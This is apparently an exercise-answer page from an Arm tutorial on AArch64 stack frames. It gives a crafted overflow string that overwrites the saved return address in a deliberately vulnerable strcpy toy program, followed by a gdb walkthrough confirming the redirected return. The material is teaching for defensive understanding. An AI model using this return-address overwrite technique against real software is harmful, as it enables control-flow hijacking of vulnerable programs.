 ```yaml
---
title: Answers to exercises
weight: 7

### FIXED, DO NOT MODIFY
layout: learningpathall
---
```



### Answer to exercise 1

```text
\ 
     +---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
     | x | x |  <-      buffer2     ->   | <- buffer1 -> | x | x | x | <- frame of the main function ->  |
     +---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 sp+:  0   1   2   3   4   5   6   7   8   9   10  11  12  13  14  15  16  17  18  19  20  21  22  23 ....
       ^
       |
       sp

```

### Answer to exercise 2

```text
\ 
     +---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
     | x29 = fp of previous function | x30 = return address to prev f| <- frame of function that called main->   |
     +---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 sp+:  0   1   2   3   4   5   6   7   8   9   10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  ...
       ^
       |
       sp = x29

```

### Answer to exercise 3

One string that could be a solution to exercise 3 at the end of the previous
section is:

```
$'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
```

We created this string by:

1. First filling the string with arbitrary characters for bytes 0 till 15.

2. Starting at byte 16, we fill in the address we want the return address to
   take. One special consideration to take is that we are working on a
   little-endian target. Therefore, we have to reverse the order of the bytes
   of the address in the string.

Let's see if it works:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
0123456789012345
```

Success! The program no longer prints the string
`"The string on the command line was: "`!

Time for a little celebration: 🎉

Now let's check in detail by stepping through the program that this is working
as we expect:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
gdb -q --args ./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
Reading symbols from ./redirect1...
```

```text { output_lines = "2-30" }
(gdb) break f
Breakpoint 1 at 0x7e4: file redirect1.c, line 8.
```

```text { output_lines = "2-30" }
(gdb) run
Starting program: /armlearningpaths/redirect1 0123456789012345\
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/aarch64-linux-gnu/libthread_db.so.1".

Breakpoint 1, f (src=src@entry=0xfffffffff927 "0123456789012345 \b\252\252\252\252") at redirect1.c:8
8           strcpy(buffer, src);
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
=> 0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x0000000000000002
0xfffffffff580: 0x0000fffffffff590      0x0000aaaaaaaa0814
```

We see that before the buffer overflow in `strcpy` is executed, the stored value
of `x30` on the stack is as it should be: `0xaaaaaaaa0814`.

```text { output_lines = "2-30" }
(gdb) nexti 2
9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
=> 0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x3736353433323130
0xfffffffff580: 0x3534333231303938      0x0000aaaaaaaa0820
```

After the buffer overflow has happened in `strcpy`, the stored value of `x30` on
the stack has changed indeed to the value `oxaaaaaaaa0820`.

```text { output_lines = "2-30" }
(gdb) nexti 3
0x0000aaaaaaaa07f8      9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
=> 0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) stepi
main (argc=<optimized out>, argv=<optimized out>) at redirect1.c:16
16          puts(chars);
```

```text { output_lines = "2-30" }
(gdb) disass
Dump of assembler code for function main:
   0x0000aaaaaaaa07fc <+0>:     stp     x29, x30, [sp, #-32]!
   0x0000aaaaaaaa0800 <+4>:     str     x19, [sp, #16]
   0x0000aaaaaaaa0804 <+8>:     mov     x29, sp
   0x0000aaaaaaaa0808 <+12>:    ldr     x19, [x1, #8]
   0x0000aaaaaaaa080c <+16>:    mov     x0, x19
   0x0000aaaaaaaa0810 <+20>:    bl      0xaaaaaaaa07d4 <f>
   0x0000aaaaaaaa0814 <+24>:    adrp    x0, 0xaaaaaaaa0000
   0x0000aaaaaaaa0818 <+28>:    add     x0, x0, #0x850
   0x0000aaaaaaaa081c <+32>:    bl      0xaaaaaaaa0670 <puts@plt>
=> 0x0000aaaaaaaa0820 <+36>:    mov     x0, x19
   0x0000aaaaaaaa0824 <+40>:    bl      0xaaaaaaaa0670 <puts@plt>
   0x0000aaaaaaaa0828 <+44>:    ldr     x19, [sp, #16]
   0x0000aaaaaaaa082c <+48>:    mov     w0, wzr
   0x0000aaaaaaaa0830 <+52>:    ldp     x29, x30, [sp], #32
   0x0000aaaaaaaa0834 <+56>:    ret
End of assembler dump.
(gdb)
```

And indeed, rather than returning to `0xaaaaaaaa0814`, the instruction after the call to function `f` has returned to
`0xaaaaaaaa0820`, skipping the first call to `puts`.
